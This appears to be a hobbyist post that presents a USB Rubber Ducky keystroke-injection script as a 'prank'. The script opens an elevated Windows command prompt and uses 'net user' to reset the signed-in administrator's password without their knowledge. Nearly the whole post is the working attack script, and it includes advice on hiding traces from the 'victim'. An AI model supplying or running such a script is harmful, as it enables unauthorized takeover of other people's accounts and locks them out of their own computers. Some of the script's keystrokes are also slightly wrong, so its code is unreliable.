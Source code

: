 Note: This hack works only if The user is signed in as administrator.

**Windows Prank:**

What the Duck here does, is that it opens up an Administrative command prompt, copies the user-name of the administrator using the command 
_echo %username% |clip_ and then hits enter.
Flawless as this attack maybe, it still leaves a trace as we copy the username. Let me know if any of you guys know how to "uncopy" i.e. remove this trace from the computer. Maybe some registry editing?? That, I don't know. Anyways, once the duck copies the username, it types out _net user *_

Now it moves one space back and then does Ctrl+V, doing which pastes the copied username and also hits enter for you.

Now it types out whatever pass you want twice, hitting enter between the two times it types out the new pass.

Finally using exit command, it closes the command prompt. That is pretty much it. Have fun pranking your friends real hard.

The ducky code:(replace the word "_pass_" with the password you want. Just remember it, incase your friend finds out it was you!!)

REM Adjust the delays according to how slow or fast your victim's computer is.

DELAY 200

GUI r

DELAY 200

STRING cmd

DELAY 200

CTRL SHIFT ENTER

DELAY 200

STRING ALT y

DELAY 200

STRING echo %username% |clip

DELAY 200

STRING net user *

DELAY 200

LEFTARROW

DELAY 200

SHIFT INSERT

DELAY 200

STRING pass

DELAY 200

STRING pass

DELAY 200

STRING exit

DELAY 200

ENTER

REM Execution Complete!!
